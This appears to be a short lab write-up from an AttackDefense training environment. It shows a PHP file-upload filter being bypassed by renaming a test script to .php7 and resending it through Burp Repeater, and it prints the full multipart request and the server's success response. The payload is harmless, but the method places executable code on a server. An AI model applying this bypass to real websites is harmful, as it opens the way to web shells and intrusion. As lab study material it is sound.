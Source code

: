 `curl https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/test.php`:
```php
<?php echo "test" ?>
```

`mv ./test.php ./test.php7`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------119337070515117360592942719626
Content-Length: 264
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------119337070515117360592942719626
Content-Disposition: form-data; name="fileToUpload"; filename="test.php7" 📌
Content-Type: application/octet-stream 📌

<?php echo "test" ?>

-----------------------------119337070515117360592942719626--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:22:46 GMT
Server: Apache
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4062


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a> 📌                   </div>

[...]
```
